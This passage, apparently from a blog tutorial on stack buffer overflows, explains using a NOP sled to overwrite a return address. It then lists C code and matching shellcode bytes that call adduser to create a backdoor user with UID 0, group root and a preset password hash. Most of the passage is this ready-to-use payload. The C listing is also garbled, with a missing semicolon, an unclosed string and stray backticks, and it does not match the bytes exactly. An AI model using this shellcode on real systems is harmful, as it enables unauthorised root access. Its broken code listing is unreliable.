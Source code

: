 	"\x37\xcf\x76\xd9\x4c\x4b\xcf\xb5"
	"\x24\x67\x53\x55\x4b\x47\x36\x52"
	"\x41\x4c\x7a\x52\x41\x38\x72\x79"
	"\x52\x4f\x63\x54\x73\x47\x30\x23";
{% endhighlight %} 

## Creating a fully Functional Exploit
The goal of this exploit is to overflow the vulnerable program’s 512-byte buffer while making optimal use of the available space. Since our shellcode is only 128 bytes long, we have over 384 remaining bytes to occupy—an ideal scenario for implementing a **NOP-sled**. Additionally, we need to estimate the payload’s address so we can overwrite the function’s return address successfully.

Given that the payload address is only a rough approximation, using a sufficiently large NOP region increases the likelihood of landing within that region and subsequently executing the shellcode. We will not discuss the C program that generates the exploit here, but you can find extensively documented source code on GitHub.

Up to this point, our shellcode only creates a non-privileged user named **markus**. To create a **root-privileged** user, we would need an extended parameter list for the `useradd` program. The shellcode’s overall structure remains the same, so we will not delve into additional details; the code is simply listed below:

{% highlight C %}
void `main()` {
   char *name[9];
   name[0] = "/usr/sbin/adduser";
   name[1] ="-u";
   name[2] = "0";
   name[3] = "-g";
   name[4] = "root";
   name[5] = "-p"
   name[6] = "$1$7ÏvÙLKÏµ$gSUKG6RALzRA8ryROcTsG0;
   name[7] = "rut";
   name[8] = NULL;
   execve(name[0], name, NULL);
}
{% endhighlight %} 
which leads to the following machine code:

{% highlight nasm %}
char byteCode[] =
	"\xeb\x67\x5e\x89\x76\x4c\x8d\x46"
	"\x12\x89\x46\x50\x8d\x46\x15\x89"
	"\x46\x54\x8d\x46\x17\x89\x46\x58"
	"\x8d\x46\x1a\x89\x46\x5c\x8d\x46"
	"\x1d\x89\x46\x60\x8d\x46\x22\x89"
	"\x46\x64\x8d\x46\x25\x89\x46\x68"
	"\x8d\x46\x48\x89\x46\x6c\x31\xc0"
	"\x88\x46\x11\x88\x46\x14\x88\x46"
	"\x16\x88\x46\x19\x88\x46\x1c\x88"
	"\x46\x21\x88\x46\x24\x88\x46\x47"
	"\x88\x46\x4b\x89\x46\x70\xb0\x0b"
	"\x89\xf3\x8d\x4e\x4c\x8d\x56\x70"
	"\xcd\x80\x31\xdb\x89\xd8\x40\xcd"
	"\x80\xe8\x94\xff\xff\xff\x2f\x75"
	"\x73\x72\x2f\x73\x62\x69\x6e\x2f"
	"\x61\x64\x64\x75\x73\x65\x72\x23"
	"\x2d\x75\x23\x30\x23\x2d\x6f\x23"
	"\x2d\x67\x23\x72\x6f\x6f\x74\x23"
	"\x2d\x70\x23\x24\x31\x24\x37\xcf"
	"\x76\xd9\x4c\x4b\xcf\xb5\x24\x67"
	"\x53\x55\x4b\x47\x36\x52\x41\x4c"
	"\x7a\x52\x41\x38\x72\x79\x52\x4f"
	"\x63\x54\x73\x47\x30\x23\x72\x75"
	"\x74\x23";